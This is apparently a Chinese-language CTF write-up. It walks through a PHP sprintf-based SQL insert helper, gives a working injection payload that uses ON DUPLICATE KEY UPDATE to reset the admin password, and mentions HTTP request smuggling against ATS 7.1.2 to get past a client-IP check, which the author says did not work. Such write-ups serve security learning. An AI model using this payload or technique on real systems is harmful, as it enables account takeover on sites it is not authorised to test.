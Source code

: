 ```php
static private function prepareInsert($baseSql, $args)
{
    $i = 0;
    if (!empty($args)) {
        foreach ($args as $column => $value) {
            $value = addslashes($value);
            if ($value !== null) {
                if ($i !== count($args) - 1) {
                    $baseSql = sprintf($baseSql, "`$column`,%s", "'$value',%s");
                } else {
                    $baseSql = sprintf($baseSql, "`$column`", "'$value'");
                }
            }
            $i++;
        }
    }

    return $baseSql;
}
```

结合源码包中的app.sql文件，确定用户名字段是唯一的，所以可以通过`INSERT ON DUPLICATE KEY UPDATE`修改管理员账户的密码。需要注意密码字段经过了sha256加密。

Payload：

```
username=admin%1$',%1$'password%1$') ON DUPLICATE KEY UPDATE password=0x38633639373665356235343130343135626465393038626434646565313564666231363761396338373366633462623861383166366632616234343861393138#&password=asd
```

提交请求修改密码，之后使用admin、admin登录，再次访问WebConsole功能，还是失败了，显示client ip不合法。定位到源码包中相应的代码：

```php
public function index()
{
    $client_ip = $SERVER['HTTP_CLIENT_IP'];    
	if ($this->request->user->username === "admin" && !filter_var(
            $_SERVER['HTTP_CLIENT_IP'],
            FILTER_VALIDATE_IP,
            FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
        return $this->render('webconsole.html', ["username" => $this->request->user]);
    } elseif ($this->request->user->username !== "admin") {
        return $this->responseNotAllowed("Only administrators in the internal network environment can access,you are not admin", ["username" => $this->request->user]);
    } else {
        return $this->responseNotAllowed("Only administrators in the internal network environment can access,your client ip($client_ip) is not be allowed, please visit in the internal network environment", ["username" => $this->request->user]);
    }

}
```

这里会检查`$SERVER['HTTP_CLIENT_IP']`为内网IP，这里直接在前端修改是没有用的，因为从响应头可以看到服务器设置了反向代理。不过ATS的版本是7.1.2，存在HTTP请求走私漏洞。

然后就搞不了了，不知道为什么我走私的请求无法生效，等先学一下服务器的知识，自己搭个环境模拟一下吧。